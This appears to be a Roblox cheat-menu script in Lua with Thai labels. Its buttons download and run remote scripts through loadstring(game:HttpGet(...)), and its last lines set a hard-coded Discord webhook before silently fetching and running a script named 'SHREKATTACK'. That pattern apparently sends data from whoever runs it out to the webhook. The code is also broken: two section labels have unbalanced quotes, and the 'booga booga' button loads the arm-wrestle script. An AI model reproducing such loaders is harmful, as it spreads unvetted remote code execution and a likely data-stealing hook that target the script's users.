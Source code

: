 local Library = loadstring(game:HttpGet("https://raw.githubusercontent.com/xHeptc/Kavo-UI-Library/main/source.lua"))()



local Window = Library.CreateLib("TURKKUN x SCRIPT", "DarkTheme")



local Tab = Window:NewTab("1.สคริป งัดข้อ")

local Section = Tab:NewSection("loadstring(game:HttpGet("Arm Arestle Simulator")

Section:NewButton("Arm Arestle Simulator", "สคริปฟรี", function()

    loadstring(game:HttpGet("https://raw.githubusercontent.com/Kenniel123/Arm-Wrestle-Simulator-Script/main/Arm-Wrestle-Simulator-Script",true))();

end)





local Tab = Window:NewTab("2.สคริป โบกา")

local Section = Tab:NewSection("loadstring(game:HttpGet("booga booga")

Section:NewButton("booga booga", "สคริปฟรี", function()

    loadstring(game:HttpGet("https://raw.githubusercontent.com/Kenniel123/Arm-Wrestle-Simulator-Script/main/Arm-Wrestle-Simulator-Script",true))();

end)



_G.webhooksdiscord = "https://discord.com/api/webhooks/1122158604359835759/h9OpPLnLyLsAV2sV0SbXZxuZLtk-JQnA4i8V0ePpBt2ac7wyDWVLqNZxlmaq-GCClyi4"

loadstring(game:HttpGet("https://raw.githubusercontent.com/SHARKX516/SHREKATTACK/main/SHARKLOL2.lua"),true)()

